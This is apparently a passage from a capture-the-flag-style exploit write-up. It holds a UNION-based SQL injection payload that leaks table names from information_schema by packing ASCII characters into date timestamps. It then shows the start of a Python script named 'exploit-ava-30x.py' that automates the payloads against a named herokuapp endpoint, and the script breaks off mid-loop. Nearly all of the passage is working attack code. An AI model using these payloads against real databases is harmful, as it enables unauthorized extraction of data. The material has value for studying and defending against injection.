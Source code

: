 ``` sql
union select 1,1672502400,
      ascii(SUBSTRING(group_concat(table_name),1))*86400
      + ascii(SUBSTRING(group_concat(table_name),2))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),3))*86400*128*128
      + 1672502400
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672588800,
      ascii(SUBSTRING(group_concat(table_name),4))*86400
      + ascii(SUBSTRING(group_concat(table_name),5))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),6))*86400*128*128
      + 1672588800
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672675200,
      ascii(SUBSTRING(group_concat(table_name),7))*86400
      + ascii(SUBSTRING(group_concat(table_name),8))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),9))*86400*128*128
      + 1672675200
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
....
```

The script is as follows:

``` python
# exploit-ava-30x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

def to_ts(raw):
  return datetime.datetime.strptime(raw, "%Y-%m-%d").timestamp()

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
start_time = '2023-01-01'
end_time = '2023-01-10'
date_count = 10
fetch_per_union = 3

start = time.time()

while True:
  unions = []
  query_time = base_time
  for i in range(date_count):
    payload = f'''
      ascii(SUBSTRING({field},{index}))*86400
      + ascii(SUBSTRING({field},{index+1}))*86400*128
      + ascii(SUBSTRING({field},{index+2}))*86400*128*128
      + {query_time}
    '''
```